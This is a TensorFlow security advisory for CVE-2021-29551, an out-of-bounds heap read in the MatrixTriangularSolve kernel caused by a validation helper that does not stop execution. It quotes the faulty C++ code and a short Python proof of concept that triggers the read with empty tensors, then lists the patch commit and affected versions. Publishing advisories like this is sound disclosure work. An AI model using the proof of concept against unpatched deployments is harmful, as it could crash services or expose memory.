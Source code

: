 ## TFSA-2021-039: OOB read in `MatrixTriangularSolve`

### CVE Number
CVE-2021-29551

### Impact
The implementation of
[`MatrixTriangularSolve`](https://github.com/galeone/tensorflow/blob/8cae746d8449c7dda5298327353d68613f16e798/tensorflow/core/kernels/linalg/matrix_triangular_solve_op_impl.h#L160-L240)
fails to terminate kernel execution if one validation condition fails:

```cc
void ValidateInputTensors(OpKernelContext* ctx, const Tensor& in0,
                            const Tensor& in1) override {
  OP_REQUIRES(
      ctx, in0.dims() >= 2,
      errors::InvalidArgument("In[0] ndims must be >= 2: ", in0.dims()));

  OP_REQUIRES(
      ctx, in1.dims() >= 2,
      errors::InvalidArgument("In[0] ndims must be >= 2: ", in1.dims()));
}

void Compute(OpKernelContext* ctx) override {
  const Tensor& in0 = ctx->input(0);
  const Tensor& in1 = ctx->input(1);

  ValidateInputTensors(ctx, in0, in1);

  MatMulBCast bcast(in0.shape().dim_sizes(), in1.shape().dim_sizes());
  ...
}
```

Since `OP_REQUIRES` only sets `ctx->status()` to a non-OK value and calls
`return`, this allows malicious attackers to trigger an out of bounds read:

```python
import tensorflow as tf
import numpy as np

matrix_array = np.array([])
matrix_tensor = tf.convert_to_tensor(np.reshape(matrix_array,(1,0)),dtype=tf.float32)
rhs_array = np.array([])
rhs_tensor = tf.convert_to_tensor(np.reshape(rhs_array,(0,1)),dtype=tf.float32)

tf.raw_ops.MatrixTriangularSolve(matrix=matrix_tensor,rhs=rhs_tensor,lower=False,adjoint=False)
```

As the two input tensors are empty, the `OP_REQUIRES` in `ValidateInputTensors`
should fire and interrupt execution. However, given the implementation of
`OP_REQUIRES`, after the `in0.dims() >= 2` fails, execution moves to the
initialization of the `bcast` object. This initialization is done with invalid
data and results in heap OOB read.

### Patches
We have patched the issue in GitHub commit
[480641e3599775a8895254ffbc0fc45621334f68](https://github.com/galeone/tensorflow/commit/480641e3599775a8895254ffbc0fc45621334f68).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ye Zhang and Yakun Zhang of Baidu
X-Team.
